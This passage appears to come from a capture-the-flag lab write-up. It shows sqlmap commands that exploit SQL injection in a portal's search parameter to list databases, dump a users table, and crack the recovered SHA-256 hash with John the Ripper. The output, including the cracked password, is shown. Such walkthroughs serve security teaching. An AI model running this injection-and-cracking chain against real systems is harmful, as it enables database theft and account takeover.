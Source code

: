 - **Next, we used sqlmap with the following parameters in order to find the names of the available databases:**
```bash
sqlmap  -u http://10.10.71.155/portal.php --data "searchitem=test" -p searchitem --dbs  --cookie="PHPSESSID=pcod9e0cnn7mt0ee9inl5u78m7"
```

- **And we got as a result:**
```bash
[16:23:33] [INFO] fetching database names
available databases [5]:
[*] db
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

- **Now that we have databases' name, we can list their tables:**
```bash
sqlmap -u http://10.10.71.155/portal.php --data "searchitem=test" -p searchitem --tables --cookie="PHPSESSID=pcod9e0cnn7mt0ee9inl5u78m7"
```

- **Here are some interesting tables we found:**
```bash
Database: db
[2 tables]
+------------------------------------------------------+
| post                                                 |
| users                                                |
+------------------------------------------------------+
```

- **Next we tried to dump the content of the users' table by using:**
```bash
sqlmap -u http://10.10.71.155/portal.php --data "searchitem=test" -p searchitem --dump -D db -T users --cookie="PHPSESSID=pcod9e0cnn7mt0ee9inl5u78m7"
```

- **We got a user and a hash (most likely its password):**
```bash
agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

- **We attempted to crack the hash using John The Ripper:
- **First, we needed to identify the hash's format in order to speed up the cracking process. Using an [online tool](https://www.tunnelsup.com/hash-analyzer/) we can quickly identify it as a  SHA-256 hash.**

- **Finally, we used the following JTR command in other to crack the hash we captured:**
```bash
john --wordlist=/home/kali/Downloads/rockyou.txt /tmp/sqlmapj9uq_eii53883/sqlmaphashes-6c9i08o1.txt -format=raw-sha256
```

- **And we got the following result:**
```bash
videogamer124    (agent47)
```
